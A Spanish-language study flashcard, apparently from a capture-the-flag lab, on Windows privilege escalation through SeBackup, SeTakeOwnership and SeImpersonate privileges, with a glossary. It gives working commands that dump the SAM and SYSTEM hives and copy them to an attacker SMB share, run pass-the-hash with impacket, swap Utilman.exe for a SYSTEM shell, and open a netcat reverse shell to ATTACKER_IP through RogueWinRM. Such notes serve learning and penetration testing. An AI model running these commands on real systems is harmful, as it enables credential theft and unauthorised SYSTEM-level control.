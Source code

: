 ### Flashcard: Windows Privilege Escalation (Privileges) — Completa

---

**1. Concepto Base**

* Cada cuenta en Windows tiene privilegios que definen qué acciones del sistema puede realizar.
* Algunos privilegios pueden explotarse para escalar a **NT AUTHORITY\SYSTEM**.
* Ver privilegios del usuario actual:

```cmd
whoami /priv
```

* Privilegios más relevantes:

  * `SeBackupPrivilege`
  * `SeRestorePrivilege`
  * `SeTakeOwnershipPrivilege`
  * `SeImpersonatePrivilege`
  * `SeAssignPrimaryTokenPrivilege`

---

**2. SeBackup / SeRestore**

* Permite **leer y escribir archivos ignorando DACLs**.
* Grupo relacionado: *Backup Operators*.
* Técnica principal: extraer hives `SAM` y `SYSTEM` para dumpear hashes NTLM.

**Procedimiento**:

```cmd
reg save hklm\system C:\Users\THMBackup\system.hive
reg save hklm\sam C:\Users\THMBackup\sam.hive
```

* Exfiltrar vía SMB:

```cmd
copy C:\Users\THMBackup\*.hive \\ATTACKER_IP\public\
```

En atacante:

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public ~/share
```

* Dump de hashes:

```bash
python3 secretsdump.py -sam sam.hive -system system.hive LOCAL
```

* Pass-the-Hash con Impacket:

```bash
python3 psexec.py -hashes LMHASH:NTHASH administrator@VICTIM_IP
```

---

**3. SeTakeOwnership**

* Permite tomar **ownership** de cualquier objeto y asignar permisos arbitrarios.
* Ejemplo típico: reemplazo de `Utilman.exe` → SYSTEM shell en lockscreen.

**Procedimiento**:

```cmd
takeown /f C:\Windows\System32\Utilman.exe
icacls C:\Windows\System32\Utilman.exe /grant <usuario>:F
copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

* En lock screen → clic en *Ease of Access* → CMD con SYSTEM.

---

**4. SeImpersonate / SeAssignPrimaryToken**

* Permiten **impersonar tokens de otros usuarios** conectados a servicios locales.
* Usado con exploits como **RogueWinRM** (BITS + WinRM).

En atacante:

```bash
nc -lvp 4442
```

En víctima:

```cmd
C:\tools\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```

* Resultado: reverse shell con privilegios SYSTEM.

---

### Glosario

* **Privilege**: Derecho especial asignado a un proceso/usuario.
* **DACL (Discretionary Access Control List)**: Lista que define quién accede a un objeto.
* **Hive**: Archivos del registro de Windows (ej. `SAM`, `SYSTEM`).
* **SAM (Security Account Manager)**: Almacena hashes NTLM de usuarios.
* **SYSTEM hive**: Contiene claves necesarias para descifrar los hashes del SAM.
* **SeBackupPrivilege / SeRestorePrivilege**: Ignoran permisos para leer/escribir archivos críticos.
* **SeTakeOwnershipPrivilege**: Permite cambiar propiedad de objetos y asignarse control total.
* **Utilman.exe**: Herramienta de accesibilidad ejecutada como SYSTEM en el login.
* **SeImpersonatePrivilege / SeAssignPrimaryTokenPrivilege**: Posibilitan ejecutar procesos como otro usuario.
* **Impersonation**: Actuar en contexto de otro usuario.
* **BITS (Background Intelligent Transfer Service)**: Servicio abusado para escalada en RogueWinRM.
* **WinRM (Windows Remote Management)**: Protocolo de administración remota similar a SSH.
* **Pass-the-Hash**: Técnica de autenticación usando hashes NTLM en lugar de contraseñas en texto claro.
* **Impacket Tools**: `secretsdump.py`, `psexec.py`, `smbserver.py` → esenciales en explotación post-explotación.

---
